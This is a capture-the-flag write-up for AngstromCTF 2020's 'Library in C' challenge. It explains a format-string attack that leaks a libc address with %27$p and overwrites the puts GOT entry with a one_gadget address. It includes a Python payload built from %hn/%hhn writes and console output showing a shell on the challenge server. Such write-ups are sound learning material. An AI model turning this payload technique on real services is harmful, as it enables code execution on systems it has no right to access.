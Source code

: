 # Library In C

Now this was fun , the objective here is to override an entry in the Global Offset Table with something that can get us a shell.
Luckily `one_gadget` does exactly that..!

So, we overwrite the GOT entry for puts with that of `one_gadget` .
Since we have two printf's we can use one to leak a libc address and the other to overwrite the GOT


## Leaking Libc
```C
Welcome to the LIBrary in C!
What is your name?
%27$p
Why hello there 0x7ffff7ddf1e3

```
Since we get a libc address we can calculate the offset to the `one_gadget`

## Overwriting Global Offset Table

We can use 2 seperate writes to overwrite the GOT entry 
```python
a = '0x'+str(one_gadget)[10::]
print a
b = '0x'+str(one_gadget)[8:10]
print b

payload2=''
payload2+= "%{}d".format(int(a,16))
payload2+= "%22$hn"
payload2+= "%{}d".format(int(b,16)+0x96)
payload2+= "%23$hhn"
payload2 = pad(payload2)
payload2+= p64(puts_got)
payload2+= p64(puts_got+2)
```

## Running the exploit
```console
arch3r@1nv4d3r:~/git-repos/CTF-Writeups/AngstromCTF2020/Library_in_C$ python exploit.py remote 
[+] Opening connection to shell.actf.co on port 20201: Done
0x7fd0c353e830

[*] libc_base : 0x7fd0c351e000
[*] one_gadget : 0x7fd0c356326a
0x326a
0x56
[*] Switching to interactive mode
Your cart:
 - 
 -
 -
 $ ls
 flag.txt
 library_in_c 
 library_in_c.c
  

 ```
 
 We have a shell.. :D
